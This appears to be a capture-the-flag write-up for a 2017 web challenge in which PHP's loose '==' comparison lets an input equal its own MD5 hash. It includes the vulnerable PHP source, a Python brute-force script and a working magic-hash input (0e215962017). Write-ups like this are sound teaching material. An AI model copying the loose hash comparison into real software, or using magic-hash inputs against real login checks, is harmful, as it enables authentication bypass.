


# MD5 Games 1, Web, 50pts

## Problem

10 years has passed since MD5 was broken, yet it is still frequently used in web applications, particularly PHP powered applications (maybe because there's a function after it?). Break it again to prove the point!

## Solution

We get simple form, where we can put our string.



Also, we are able to see PHP source of the challenge:

```php
<?php
if (isset($_GET['src']))
    highlight_file(__FILE__) and die();
if (isset($_GET['md5']))
{
    $md5=$_GET['md5'];
    if ($md5==md5($md5))
        echo "Wonderbubulous! Flag is [here goes a flag]"; //.require __DIR__."/flag.php";
    else
        echo "Nah... '",htmlspecialchars($md5),"' not the same as ",md5($md5);
}


?>
<p>Find a string that has a MD5 digest equal to itself!</p>
<form>
    <label>Answer: </label>
    <input type='text' name='md5' />
    <input type='submit' />
</form>

<a href='?src'>Source Code</a>
```

The only way we can get the flag is to pass string, which MD5 hash is exact the same as the string itself. Because such string does not exists (or I don't know one) we have to find another solution.

The only way to solve this challenge is to exploit PHP type juggling (as ```$md5``` is compared with ```md5($md5)``` with ```==``` instead of strict comparision operator ```===```).

The easiest way to do this is to provide a number starting with ```0e```, which MD5 hash begins with ```0e``` as well and contains only numbers. 

Thats because such comparision will return ```true```:


```php
// test.php
<?php
echo intval('0e123' == '0e999'); // result 1, which means TRUE
echo "\n";
echo intval('0e123' === '0e999'); // result 0, which means FALSE
echo "\n";
```

Result of above script will be:

```
bl4de:~/hacking/ctf/2017/HackDatKiwi_CTF_2017/md5games1 $ php -e test.php
1
0
```

As we can see, comparision with ```==``` returned ```true```.


So we have to find a number, starting from ```0e```, which MD5 hash will contain __only digits__ (both string and its MD5 hash have to be numbers typed in scientific notation), which is indicated by ```0e``` at the beginning; any sign other than digit will cause than one of them can't be casted to number and condition returns ```false```).


My approach to this challenge was to use simple brute force. I've created Python script, which iterates over incremented numbers with ```0e``` as a prefix, calculate MD5 hash of it and checks if that hash starts with ```0e``` and contains only digits after.

Not very efficient solution, but worked fine:

```python
#!/usr/bin/env python
import hashlib
import re

prefix = '0e'


def breakit():
    iters = 0
    while 1:
        s = prefix + str(iters)
        hashed_s = hashlib.md5(s).hexdigest()
        iters = iters + 1
        r = re.match('^0e[0-9]{30}', hashed_s)
        if r:
            print "[+] found! md5( {} ) ---> {}".format(s, hashed_s)
            print "[+] in {} iterations".format(iters)
            exit(0)

        if iters % 1000000 == 0:
            print "[+] current value: {}       {} iterations, continue...".format(s, iters)

breakit()

```


When I run it, after couple of minutes and __almost 216 millions__ of iterations, I get the string which gave me the flag:


```
[+] current value: 0e196999999       197000000 iterations, continue...
[+] current value: 0e197999999       198000000 iterations, continue...
[+] current value: 0e198999999       199000000 iterations, continue...
[+] current value: 0e199999999       200000000 iterations, continue...
[+] current value: 0e200999999       201000000 iterations, continue...
[+] current value: 0e201999999       202000000 iterations, continue...
[+] current value: 0e202999999       203000000 iterations, continue...
[+] current value: 0e203999999       204000000 iterations, continue...
[+] current value: 0e204999999       205000000 iterations, continue...
[+] current value: 0e205999999       206000000 iterations, continue...
[+] current value: 0e206999999       207000000 iterations, continue...
[+] current value: 0e207999999       208000000 iterations, continue...
[+] current value: 0e208999999       209000000 iterations, continue...
[+] current value: 0e209999999       210000000 iterations, continue...
[+] current value: 0e210999999       211000000 iterations, continue...
[+] current value: 0e211999999       212000000 iterations, continue...
[+] current value: 0e212999999       213000000 iterations, continue...
[+] current value: 0e213999999       214000000 iterations, continue...
[+] current value: 0e214999999       215000000 iterations, continue...
[+] found! md5( 0e215962017 ) ---> 0e291242476940776845150308577824
[+] in 215962018 iterations
bl4de:~/hacking/ctf/2017/HackDatKiwi_CTF_2017 $
```

I've put __0e215962017__ into the form and:


